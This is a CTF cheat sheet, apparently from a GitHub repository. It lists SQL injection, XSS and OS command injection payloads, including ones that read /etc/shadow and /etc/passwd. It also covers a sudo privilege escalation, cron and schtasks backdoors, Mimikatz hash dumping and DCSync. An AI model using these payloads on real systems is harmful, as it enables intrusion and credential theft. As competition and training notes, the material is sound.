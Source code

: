 [Steps to follow in a CTF](https://github.com/chreniuc/CTF)
---

# Web
Hidden pages
* Run `Dirbuster`, `dirb`, or `gobuster` to get a directory tree and insecure files
* Inspect robots.txt : www.website.com/robots.txt
* Inspect website headers: `curl -I website.com/page.php`

Hidden details - Use "Find" in page source to search: Login, Password, Admin, Administrator, Success
Passwords - Always try password=username first, then shorter/obvious password lists, before running rockyou.txt

[Admin Access through weak password update process - Walkthrough](https://siunam321.github.io/ctf/Cyber-Apocalypse-2023/Web/Passman/)
* Create user --> BurpSuite Interceptor ON --> Update Password --> Burp Repeater request to change "admin" password 

## SQL Inj 
Attempt login with: `admin' OR 1=1`, `' OR 1=1-- -`, `" OR 1=1-- -`, `" OR 1 or "`, `admin"-- -"`, `admin;-- -'`

## Reflected XSS 
Put any of the following into address bars, comment fields or any Java fields: <script>alert(flag)</script>, <sScriptCRIPT>alert(flag)</sSCRIPTcript>, 

## OS Inj
Run [valid input] followed by: `|| cat ../flag.txt`, `| cat ../flag.txt`, `&& cat ../flag.txt`, `& cat ../flag.txt`, `; cat ../flag.txt`
Run [valid input] followed by: `|| cat ../../etc/passwd`, `| cat ../etc/shadow`, `&& cat ../etc/shadow`, `& cat ../etc/shadow`, `; cat ../etc/shadow`
Run [valid input] followed by: `|| ifconfig`, `| ifconfig`, `&& ifconfig`, `& ifconfig`, `; ifconfig`

Input following into address bar with "?" options: `?message=;system` , `?page='netstat`
Other options for breaks: ' " : 

## Directory Traversal
Inspect address bar and use variations of `?page=disclaimer_2.txt` to find files/directories (eg. `?page=old_disclaimers/disclaimer_1.txt`)

## Local File Inclusion
Any option to upload a file: make sure it's php. 
If whitelisting file types, add extension on to PHP file (eg. cats.php.jpg)

## Remote File Inclusion

## Linux - Host Enumeration
`Nmap -A -v ipaddress` (-A for aggressive, -v for verbose, -sV not required with -A)

Linux Post-exploitation: ls, cat, locate, cat /etc/users
* `getuid` , `search -f flag`, `locate flag`
* Attempt escalation with `sudo -u#-1 bash` for root
* Persistent backdoor through `cron`

Windows Post-exploitation: dir, type, find, net users
* Persistent backdoor through `schtasks` (check task names with `schtasks /query /TN flag /FO list /v`
* Check `C:\` & `C:\Users\Public\Documents`
* Lateral: Search Metasploit for `psexec` exploit to login to Domain Controller
  * Dump SAM with Metasploit/Mimikatz: `kiwi_cmd lsa_dump_sam` (Find Hash NTLM, crack with `john --format=NT hashfile.txt`)
  * Dump LSA cache with Metasploit/Mimikatz: `kiwi_cmd lsadump::cache` (Find MsCacheV2, crack with `john --format=mscash2 hashfile.txt`)
* On Domain Controller: Run DC Sync for admin users eg. `dcsync_ntlm administrator`
_______________________________________________________

# Reversing
* Run `Strings <file> | grep flag`
* [Excellent Reversing Examples - NitroLabs](https://nitrolabs.xyz/posts/HTB-CA2023-Reversing-HW-Misc/)

# Forensics
* [Excellent Forensics Examples - NitroLabs](https://nitrolabs.xyz/posts/HTB-CA2023-Forensics/)  
* Wireshark Filter: `http contains flag`, `tcp contains flag`
  * Right-click packet and select `Follow stream`
* [Chainsaw - Windows Forensics Tool - GitHub](https://github.com/WithSecureLabs/chainsaw)  

* ps1 = Powershell
